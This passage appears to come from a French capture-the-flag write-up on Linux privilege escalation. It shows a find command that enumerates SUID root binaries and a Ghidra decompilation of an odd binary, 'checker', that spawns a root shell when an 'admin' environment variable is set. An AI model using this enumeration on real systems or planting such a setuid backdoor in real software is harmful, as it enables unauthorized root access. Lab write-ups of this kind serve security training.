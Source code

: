 Je vais regarder les programmes qui sont root, on va pouvoir ainsi rechercher les applications qui sont de trop, il y aura peut-être un moyen de devenir bjoel voir root !
```
find / -type f -user root -perm -u=s 2>/dev/null
```
Et voici le résultat (un peu reduit):
```
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
[...]
/snap/core/9066/usr/sbin/pppd
```
Je vois ici que le process **/usr/sbin/checker** n'est pas habituel, ce n'est pas un process connu et c'est introuvable sur internet.
Quand je l'execute, il me répond :
```
Not an Admin
```
On doit pouvoir faire quelque chose pour l'exploiter .
Il s'agit d'un binaire ELF (Le .exe de linux)
```
checker: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6cdb17533a6e02b838336bfe9791b5d57e1e2eea, not stripped
```
Je le récupère et je l'ouvre avec Ghidra afin de voir ce qu'il y a dedans:
```
undefined8 main(void)

{
  char *pcVar1;
  
  pcVar1 = getenv("admin");
  if (pcVar1 == (char *)0x0) {
    puts("Not an Admin");
  }
  else {
    setuid(0);
    system("/bin/bash");
  }
  return 0;
```
Comme on peux le voir ici
```
pcVar1 = getenv("admin");
``` 
Il check que la variable d'environnement **admin** soit vrai pour lancer /bin/bash en tant que root.
